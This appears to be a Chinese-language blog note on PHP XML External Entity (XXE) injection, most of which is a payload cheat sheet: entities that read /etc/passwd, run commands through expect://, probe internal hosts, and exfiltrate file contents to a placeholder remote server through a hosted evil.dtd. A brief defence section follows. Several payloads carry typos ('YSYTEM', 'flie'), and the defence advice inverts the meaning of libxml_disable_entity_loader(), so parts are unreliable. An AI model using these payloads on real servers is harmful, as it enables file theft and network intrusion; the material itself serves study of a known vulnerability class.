 ```yaml
---
layout: post
title: XXE 
date: 2022-10-1
categories: blog
tags: [笔记]
description: 应急响应

---
```


### PHP_XXE

****

#### **XXE**(XML External Entity Injection) 

外部实体注入，当web服务器解析XML文件时允许外部实体的引入引起的漏洞，在php中当`libxml库版本<=2.9.0`时，默认开启引用外部实体，在phpinfo界面可查看，此漏洞与php版本无关  

xml对于大小写敏感，xml中不允许出现%,<,>等等，要使用的话必须要经过转义,xml只能有一个根节点

#### DTD(DocumentType Definition)

文档类型定义,是以dtd为后缀的自定义约束文件，DTD定义了XML文档内容的结构，保证XML以一致的格式存储数据，XML允许用户创建自己的DTD约束  
将.dtd文件托管在VPS上，使服务器获取该文件并执行其中的恶意命令可以窃取服务器文件等

#### XML格式

```xml-dtd
#内部实体调用
<?xml version="1.0" encoding="utf-8" ?> #xml声明
<!DOCTYPE evil[ #内部DTD 文档类型定义
    <!ELEMENT evil ANY> #声明约束元素，内容随意
    <!ENTITY xxe YSYTEM "file:///etc/passwd"> #内部实体
]>
<test>  #文档元素
<name>&xxe;</name> #对实体的引用
</test>

#外部实体调用
<!ENTITY % payload SYSTEM "flie:///etc/passwd">
<!ENTITY % test STSTEM "<!ENTITY &#37; pass SYSTEM 'http://x.x.x.x/index.php?test=%payload'>">
 #这是一个叫test.dtd的外部dtd文件
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test[
	<!ENTITY % cmd "http://x.x.x.x/test.dtd"> 
	%cmd;
	%payload;
	%test;
]>

```



#### 基础payload整理

```xml-dtd
#文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
    <!ELEMENT a ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<a>
    <name>&xxe;</name>
</a>


#命令执行，需要expect扩展
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "expect://ifconfig" >]>
<root>
<name>&xxe;</name>
</root>

#内网探测
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "http://x.x.x.x:PORT">]>
<root>
<name>&xxe;</name>
</root>

#远程加载恶意dtd
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ 
<!ENTITY % pe SYSTEM "http://x.x.x.x/evil.dtd">
%pe;
%param1;
]>
<foo>&external;</foo>
#evil.dtd
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://x.x.x.x/page?data=%payload;'>">

<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>

#php filter文件读取
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root[
        <!ENTITY  xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root><name>&xxe;</name></root>
```



#### php_XXE防御

禁用`libxml_disable_entity_loader()`函数  
升级libxml库版本>2.9.0  
过滤用户提交的XML数据

